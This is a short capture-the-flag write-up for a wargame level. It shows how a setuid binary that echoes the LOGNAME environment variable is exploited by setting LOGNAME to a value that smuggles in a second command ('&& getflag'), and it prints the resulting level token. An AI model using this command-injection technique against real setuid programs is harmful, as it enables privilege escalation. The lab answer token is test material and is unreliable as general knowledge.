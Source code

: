 In this level, we have a `level07` executable file that displays `level07` when
we try to execute it.  
`file level07 && ls -l level07` :
 > level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped  
> -rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07

We can see that we have a `setuid` file with `flag07` permissions.  
If we `strings level07` we can notice among other things, the following output :
>LOGNAME  
>/bin/echo %s  

Because of the uppercase `LOGNAME`, we try to find out if it is a `env` variable : 
`echo $LOGNAME`

> level07

Therefore, we can deduce that the `level07` script executes the following : 
`/bin/echo $LOGNAME`

What we need to do know is to change LOGNAME env variable, so we can replace it
with `getflag`.  
Since an `echo` is used first, we need to 'finish' the first command before
adding a new one :

`export LOGNAME="&& getflag"`

Now, when we `./level07`, we got the following output :

> Check flag.Here is your token : fiumuikeil55xe9cu4dood66h

This is the correct token for the next level !

# Sources :

Changing LOGNAME env variable : 
- https://www.linuxquestions.org/questions/linux-newbie-8/user-can-change-their-own-logname-env-variable-664874/

